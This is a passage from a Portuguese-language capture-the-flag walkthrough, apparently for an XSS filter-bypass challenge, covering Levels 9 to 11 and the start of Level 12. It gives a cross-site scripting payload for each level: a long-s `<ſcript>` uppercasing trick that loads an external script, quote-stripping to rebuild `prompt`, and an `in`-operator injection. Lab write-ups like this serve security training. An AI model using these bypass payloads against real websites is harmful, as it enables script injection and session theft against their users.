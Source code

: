 ### 💡 Estratégia:

* Usar `<ſcript>` que vira `<SCRIPT>`.

### ✅ Payload:

```html
<ſcript/ſrc=//⒕₨></ſcript>
```

---

## ✅ Level 10 - Bloqueio de `prompt` + aspas

### 🧠 Análise:

Bloqueia `prompt` e `'`. Mas como os filtros são em cadeia, podemos usar `p'rompt` (que vira `prompt` após remoção de `'`).

### 💡 Estratégia:

* Inserir `p'rompt(1)`

### ✅ Payload:

```js
p'rompt(1)
```

---

## ✅ Level 11 - Injeção usando operador `in`

### 🧠 Análise:

O input vai para `"Welcome back, X"`. Mas caracteres especiais são filtrados. O operador `in` é permitido e avaliado.

### 💡 Estratégia:

* Fazer `(prompt(1))in"` que é avaliado antes de `in` e executa.

### ✅ Payload:

```js
"(prompt(1))in"
```

---

## ✅ Level 12 - `toString(radix)` e `eval`

### 🧠 Análise:
